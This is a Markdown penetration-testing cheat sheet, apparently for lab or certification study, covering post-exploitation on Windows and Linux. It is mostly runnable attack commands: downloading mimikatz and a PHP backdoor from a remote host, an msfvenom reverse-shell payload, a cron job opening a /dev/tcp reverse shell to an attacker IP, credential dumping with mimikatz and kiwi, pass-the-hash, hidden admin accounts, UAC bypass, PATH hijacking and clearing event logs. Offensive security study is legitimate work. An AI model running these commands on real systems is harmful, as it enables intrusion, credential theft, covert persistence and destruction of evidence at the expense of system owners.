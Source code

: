 # General

<details>
<summary>Transfer files</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv ip port < test.txt (sender)`
    
</details>

<details>
<summary>Fully interactive shell</summary>

- Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`
    
</details>

<details>
<summary>Keylogger</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes

<br><br>
</details>

<details>
<summary>Pivoting</summary>
 
- Metasploit
  - `ipconfig` : find subnet (the host may be in other network)
  - `run autoroute -s <subnet>` : Adds routes. In this way we can access to other internal hosts. We can perform a scan from msfconsole on any devices in the subnet
    - Example:
      - `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      - `run autoroute -s 10.10.0.29.0/20`
  - `run autoroute -p` : Displays active routing table.
  - auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  - `portfwd list`
  - `nmap -sV -sC -p 1234 localhost`
  - //since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload : windows/meterpreter/bind_tcp

<br><br>
</details>

# Windows

<details>
<summary>Enumeration</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup <user>` : Get group membership of user
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table
  - `route print` : print route table
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation : JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

<br><br>
</details>

<details>
<summary>Persistence</summary>
 
- Metasploit
  - search persistence module (Windows)
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
  - You need to set a listener to receive the connection
- Enable RDP
  - with metasploit : search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
  - second way with metasploit/meterpreter (auto create account and settings):
    - In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      - enables rdp service --> creates new user with the provided parameters -->  hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.


<br><br>
</details>

<details>
<summary>Clearing tracks</summary>
 
- Metasploit/Meterpreter
  - `clearev`
    
<br><br>
</details>

<details>
<summary>Privilege Escalation</summary>

<br>
Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br><br>

<details>
<summary>Automation script</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. Akagi64.exe 23 <payload_full_path>
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>Pass the Hash</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>Other</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


</details>

# Linux

<details>
<summary>Enumeration</summary>

- System info
  - `cat /etc/issue` Print linux distro version
  - `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture 
  - `env` Print environment variables
  - `cat /etc/issue` Contains a message or system identification to be printed before the login prompt
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
  - `dpkg -l` : list packages installed with version
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m bob -s /bin/bash` : Creates a user. Useful for persistence
  - `usermod -aG root bob` : Add bob to root group. Useful for persistence
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network
  - We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  - `ip a`
    - Useful to discover other network
  - `cat /etc/hostname` : display hostname
  - `cat /etc/hosts` : maps IP addresses to domain
    - Useful to discover internal domain you can access
  - `cat /etc/resolv.conf` : display the domain name server
    - Many times it is the default gateway
  - Meterpreter
    - `netstat` : Display the network connections
    - `route` : View and modify the routing table
      - Note: gateway is important... it can be a DNS server, DHCP server or all in one
    - `arp -a` : Display the host ARP cache
- Processes & services
  - `ps aux | grep root` : Useful for privesc
  - `top` dynamic real-time view of a running system (like task manager)
  - `crontab -l` : display cronjob for the root user
  - `ls -al /etc/cron*` : display all file that contains cronjob
  - `cat /etc/cron*` : display the contents of all cronjob files

<br><br>
</details>

<details>
<summary>Persistence</summary>

- Metasploit
  - search persistence module (Linux)
    - Example: post/linux/manage/sshkey_persistence (needed elevated privs - This module will add an SSH key to a specified user)
- Via SSH key
  - After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
- With cron jobs
  - Set up listener
  - `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1' > cron` : create a cronjob (every minute time format)
  - `crontab -i cron`
  - `crontab -l` : crontab for the current user
  - NOTE: if the command doesn't work try with another one... revshell 

<br><br>
</details>

<details>
<summary>Privilege Escalation</summary>

<br>

<details>
<summary>Vulnerable program</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br><br>
</details>

<details>
<summary>Weak Permissions</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br><br>
</details>

<details>
<summary>Sudo</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br><br>
</details>

<details>
<summary>Other</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>
</details>

<br>
</details>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*
